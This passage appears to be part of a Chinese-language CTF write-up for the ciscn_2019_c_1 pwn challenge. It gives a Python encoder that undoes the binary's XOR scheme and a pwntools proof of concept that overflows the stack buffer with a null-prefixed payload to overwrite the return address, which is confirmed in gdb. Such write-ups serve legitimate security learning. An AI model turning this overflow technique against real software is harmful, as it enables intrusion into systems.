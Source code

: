 对于第一种方案，编写了一个编解码函数
```py
def encode(payload):
    ret = b''
    over = False
    for i in range(len(payload)):
        current = payload[i]
        if current == 0:
            over = True
        if not over:
            if payload[i] < ord('a') or ord('z') < payload[i]:
                if payload[i] < ord('A') or ord('Z') < payload[i]:
                    if ord('/') < payload[i] and payload[i] < ord(':'):
                        current = current ^ 0xf
                else:
                    current = current ^ 0xe
            else:
                current = current ^ 0xd
        ret += chr(current).encode('latin-1')  # 注意这里一定要选择latin-1编码，
                                               # 如果使用utf-8编码会导致字符串长度发生改变
    return ret
```

编写一段poc验证思路
```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']


sh = process('./ciscn_2019_c_1')
# sh = remote('node4.buuoj.cn', 26578)

gdb.attach(sh)


def menu(id):
    sh.sendlineafter('choice!\n', str(id))


def main():
    menu(1)
    sh.recvuntil('encrypted\n')
    offset = 0x58
    return_addr = 0xdeadbeef
    payload = b'\0' + b'a' * (offset - 1) + p64(return_addr)
    sh.sendline(payload)
    sh.interactive()

if __name__ == "__main__":
    sys.exit(main())
```
{{<image src="poc.png" caption="return address被覆盖">}}
在encrypt函数的最后打上断点，查看return前的状态，可以看到return address被覆盖，验证栈溢出存在且可以被利用
